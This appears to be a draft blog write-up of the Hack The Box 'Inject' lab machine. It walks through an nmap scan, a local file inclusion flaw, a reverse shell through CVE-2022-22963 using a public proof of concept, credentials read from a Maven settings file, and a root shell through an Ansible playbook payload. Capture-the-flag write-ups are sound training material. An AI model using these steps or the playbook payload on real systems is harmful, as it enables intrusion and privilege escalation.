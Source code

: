 ```yaml
---
title: "Hack The Box - Inject [Easy]"
date: 2023-04-03T02:01:27+03:00
draft: true
description: 
---
```


The machine is labeled misleadingly *easy*, but that can lead you to miss stuff, so make sure to check **everything**! 

A simple `nmap` scan shows us that `8080` port is open.

```bash
Nmap scan report for 10.10.11.204
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's start by simply inspecting the website that is running on port `:8080`.

The website seems like it has an upload form that we can upload images, my initial thought was LFI vulnerability, so I've checked it and I found it.

```
http://10.10.11.204:8080/show_image?img=<vulnerable  to LFI>
```

Now I've wandered around exploring the website's source code and after a bit of digging and searching I was on the verge of giving up. Since the machine is labeled easy, I didn't exactly expect that the way to find a vulnerability is through https://spring.io/security/cve-2022-22963 (CVE-2022-22963) and I overlooked the versions that were listed in the maven build file (which you could exfiltrate from the LFI vulnerability).

After that, a reverse shell using this https://github.com/lemmyz4n3771/CVE-2022-22963-PoC POC was easy-peasy.

While enumerating the users, we can see that we have `root, phil ,frank` and a group that is called `staff`. So changing from `frank` to `phil` was through `/home/frank/.m2/settings.xml` which had the credentials to change the user to `phil`.

You can get your first flag after that.


Changing to root was a bit tricky at first since I was trying to create a new playbook, which caused some errors and I finally decided to use the currently created one with the following payload.

```bash
$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > ./playbook_1.yml
<blabla>
$ bash -p
$ whoami
root
```

And there we have it!